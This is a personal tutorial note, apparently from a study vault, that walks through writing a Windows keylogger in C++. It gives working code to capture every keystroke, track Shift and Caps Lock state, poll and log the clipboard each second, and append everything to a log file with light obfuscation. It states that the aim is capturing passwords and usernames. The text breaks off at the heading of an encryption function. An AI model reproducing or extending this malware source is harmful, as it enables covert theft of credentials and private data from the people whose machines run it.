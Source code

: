 **Title:** ILY - Keylogger
**Tags:** [[ILY - Easy]]
**Topics:** #CPP #Keylogger

---
# ILY - Keylogger
# General
## First Iteration
### Keylogger
#### Function: ``startLogging()``
It is not possible to know which key has been pressed after it happened, so the only way to detect it is to check all possible valid keys in the ASCII symbols every time. Due to our goal of capturing passwords and usernames, the last valid symbol is "¡", which has the number 173 in the ASCII standard.

Now that we are checking all possible characters, it is important to determine how we are going to get that “alarm” informing us that a key on the keyboard has been pressed. This is where `GetAsyncKeyState()` comes into play.

`GetKeyState()` Will return that a key has been pressed only if it happens in the same “instant”; otherwise, it will not detect it. This isn't really convenient in our case, so we will use `GetAsyncKeyState()` instead, because it can retrieve the state of a key pressed at any time.

It's essential to understand how `GetAsyncKeyState()` works and the best way to implement it. You will see three types of implementations:
- `GetAsyncKeyState(key) == -32767`: Verifies if a key has been pressed and released.
- `GetAsyncKeyState(key) & 0x0001`: Verifies if a key has been pressed since the last call.
- `GetAsyncKeyState(key) & 0x8000`: Verifies if a key is currently being pressed.
[//]: Note that (0xFFFF8001)Hexa == (-32767)Ca2

```ad-question
I do not fully understand why the keylogger only works correctly when I set `0xFFFF8001` and why it captures the key while I maintain it pressed.
```

Finally, for readability purposes, we want to process special characters to log them in a special format. Otherwise, we just log the key directly.

```c++
for (char key = 8; key<=173; key++) {
	if (GetAsyncKeyState(key) == 0xFFFF8001) {
	    if (not specialKey(key)) {
            string str(1, key);
            save(str);
        }
    }
}
```

#### Function: ``save(const string& input)``
Firstly, we need to create a new datatype to work with files. For this reason, we must include `#include <iostream>` and `#include <fstream>`.

```ad-info
**fstream**
This data type represents the file stream generally, and has the capabilities of both ofstream and ifstream which means it can create files, write information to files, and read information from files.
```

Afterward we will have to open the file to append the `input` in it. 
`fstream` will create the file if it does not exist, and if any no problem occurs, we will append the input. It is good practice to close the file every time after performing file operations.

```c++
void save(const string& input) {
    fstream LogFile;
    
    LogFile.open("log.txt", fstream::app);  // If it does not exists, it will create it.
    
    if (LogFile.is_open()) {
		LogFile << input;
		LogFile.close();
	}
}
```

## Second Iteration
### Detect Upper and Lower cases
#### Function: `isCapsLock()` and `isShift()`
``GetKeyState(VK_CAPITAL)`` returns a short where the least significant bit (LSB) represents the toggle state. If the LSB is 1, Caps Lock is active.
```c++
bool isCapsLock() { 
	return (GetKeyState(VK_CAPITAL) & 1) != 0; 
}
```

``GetKeyState(VK_SHIFT)`` Returns a short where the most significant bit (MSB) is set if the key is currently being pressed. The value 0x8000 corresponds to this MSB, indicating the physical press of the key.
```c++
bool isShift() { 
	return (GetKeyState(VK_SHIFT) & 0x8000) != 0; 
}
```

### Clipboard Monitoring
The clipboard monitoring functionality is designed to capture and log text data from the system clipboard periodically. This process involves checking the clipboard contents at regular intervals and logging any changes. 
[//]: Note that is not necessary to check the clipboard as frequent as the key status, so we will have to implement threats.


#### Function: `getClipboardText()`
The `getClipboardText` function retrieves the text currently stored in the system clipboard. It utilizes the Windows API to access the clipboard and fetches any Unicode text available.

- **Opening the Clipboard**: The function begins by calling `OpenClipboard(nullptr)`. This function attempts to open the clipboard for examination and prevents other applications from modifying it until it is closed.
- **Fetching Data**: The function uses `GetClipboardData(CF_UNICODETEXT)` to retrieve the handle to the clipboard data in Unicode text format. If no text is available, it returns an empty string.
- **Converting Data**: If data is present, the function locks the global memory to access the text using `GlobalLock(hData)`, converting the wide character string (`wstring`) to a standard string (`string`).
- **Closing the Clipboard**: After retrieving the text, the function releases the global memory lock using `GlobalUnlock(hData)` and closes the clipboard using `CloseClipboard()`.

```c++
string getClipboardText() {
    string text = "";

    if (!OpenClipboard(nullptr)) {
        return text;
    }

    HANDLE hData = GetClipboardData(CF_UNICODETEXT);
    if (hData != nullptr) {
        wchar_t* pwszText = static_cast<wchar_t*>(GlobalLock(hData));
        if (pwszText != nullptr) {
            wstring ws(pwszText);
            text = string(ws.begin(), ws.end());
            GlobalUnlock(hData);
        }
    }
    CloseClipboard();

    return text;
}
```


#### Function: `clipboardLogger(int key, atomic<bool>& running)`

The `clipboardLogger` function is responsible for periodically checking the clipboard for new content and logging it using an encryption mechanism.

- **Periodic Check**: It continuously runs in a loop controlled by an atomic boolean `running`. It sleeps for 1 second (`Sleep(1000)`) between checks to minimize system resource usage.
- **Detecting Changes**: It compares the current clipboard content with the previously logged content. If there is new content that differs from what was previously stored, it logs this content.
- **Logging and Encryption**: New clipboard content is logged by calling the `save` function, which encrypts the content using a simple character shift.

```c++
void clipboardLogger(int key) {
    string previousClipboardContent;

    while (true) {
        Sleep(1000);

        string currentClipboardContent = getClipboardText();

        if (!currentClipboardContent.empty() && currentClipboardContent != previousClipboardContent) {
            save("\n[+]Clipboard: " + currentClipboardContent + "\n", key);
            previousClipboardContent = currentClipboardContent;
        }
    }
}
```

### Encrypt and decrypt the logfile
#### Function: `save(void save(const string& input, int key))`
